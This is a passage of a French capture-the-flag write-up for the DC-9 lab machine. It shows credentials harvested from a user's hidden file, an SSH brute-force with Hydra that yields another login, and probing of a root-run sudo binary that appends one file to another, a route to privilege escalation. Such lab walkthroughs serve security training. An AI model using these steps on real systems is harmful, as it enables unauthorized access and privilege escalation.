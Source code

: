 Finalement, c'est le compte `Janitor` (aka `Donald Trump`) qui a un fichier intéressant :

```console
janitor@dc-9:~$ ls -al
total 16
drwx------  4 janitor janitor 4096 Mar 24 00:54 .
drwxr-xr-x 19 root    root    4096 Dec 29  2019 ..
lrwxrwxrwx  1 janitor janitor    9 Dec 29  2019 .bash_history -> /dev/null
drwx------  3 janitor janitor 4096 Mar 24 00:54 .gnupg
drwx------  2 janitor janitor 4096 Dec 29  2019 .secrets-for-putin
janitor@dc-9:~$ ls .secrets-for-putin/
passwords-found-on-post-it-notes.txt
janitor@dc-9:~$ cat .secrets-for-putin/passwords-found-on-post-it-notes.txt 
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

Je rajoute les passwords manquants dans la liste et je relance `Hydra` :

```
[22][ssh] host: 192.168.56.140   login: fredf   password: B4-Tru3-001
```

## Ajoute

Ce nouvel utilisateur a une permission particulière :

```console
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Il s'agit d'un gros exécutable bien que compilé en dynamique.

```console
fredf@dc-9:~$ file /opt/devstuff/dist/test/test
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
fredf@dc-9:~$ ls -al /opt/devstuff/dist/test/test
-rwxr-xr-x 1 root root 1212968 Dec 29  2019 /opt/devstuff/dist/test/test
```

Il s'agit visiblement d'un code Python qui a été compilé en ELF. Avec quelques essais, on se fait une idée de son fonctionnement :

```console
fredf@dc-9:~$ /opt/devstuff/dist/test/test read append
Traceback (most recent call last):
  File "test.py", line 10, in <module>
FileNotFoundError: [Errno 2] No such file or directory: 'read'
[3559] Failed to execute script test
fredf@dc-9:~$ echo test > yolo
fredf@dc-9:~$ /opt/devstuff/dist/test/test yolo append
fredf@dc-9:~$ cat yolo 
test
fredf@dc-9:~$ ls
append  yolo
fredf@dc-9:~$ cat append 
test
```